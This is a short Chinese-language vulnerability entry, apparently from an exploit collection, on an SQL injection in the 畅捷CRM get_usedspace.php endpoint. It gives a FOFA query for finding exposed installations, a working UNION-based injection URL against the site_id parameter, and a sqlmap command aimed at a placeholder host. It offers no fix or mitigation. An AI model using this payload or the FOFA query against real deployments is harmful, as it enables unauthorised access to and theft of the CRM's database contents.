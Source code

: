 # 畅捷CRM get_usedspace.php SQL注入漏洞

## 漏洞描述

畅捷CRM get_usedspace.php存在SQL漏洞，通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>畅捷CRM</a-checkbox></br>

## FOFA

<a-checkbox checked>title="畅捷CRM"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1633506073821-57c99e5c-e655-49d0-a6de-845e13e971f8.png)

验证POC

```php
/webservice/get_usedspace.php?site_id=-1159 UNION ALL SELECT CONCAT(0x76756c6e,0x76756c6e,0x76756c6e)--
```

![img](../../../.vuepress/public/img/1633511742259-b57303f1-0530-477e-a86f-8a403927fe15.png)

使用Sqlmap验证漏洞

```php
sqlmap -u "http://xxx.xxx.xxx.xxx:8000/webservice/get_usedspace.php?site_id=1" -p site_id
```

![img](../../../.vuepress/public/img/1633511844026-09d2cb14-ca2e-4c20-be83-f634144393e2.png)